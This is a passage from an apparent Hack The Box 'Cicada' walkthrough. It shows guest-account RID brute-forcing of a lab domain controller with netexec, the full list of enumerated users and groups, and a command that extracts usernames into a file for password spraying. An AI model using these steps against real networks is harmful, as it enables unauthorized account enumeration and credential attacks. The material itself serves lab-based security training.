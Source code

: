 ```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ netexec smb $ip -u guest -p '' --rid-brute
SMB         10.129.231.149  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.231.149  445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.129.231.149  445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        514: CICADA\Domain Guests (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        515: CICADA\Domain Computers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        516: CICADA\Domain Controllers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        517: CICADA\Cert Publishers (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        518: CICADA\Schema Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        519: CICADA\Enterprise Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        520: CICADA\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        521: CICADA\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        522: CICADA\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        525: CICADA\Protected Users (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        526: CICADA\Key Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        527: CICADA\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.231.149  445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.231.149  445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.231.149  445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```
These results are not ready to be used to spray the password with a usernames list. It is possible to add manually the users, but it would be better to make our life easier by using several commands combined to create the `usernames.txt` file containing the usernames found by the rid.

```
┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ netexec smb $ip -u guest -p '' --rid-brute | grep SidTypeUser | cut -d'\' -f2 | cut -d' ' -f1 > usernames.txt

┌──(emvee㉿kali)-[~/Documents/HTB/Cicada]
└─$ cat usernames.txt       
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```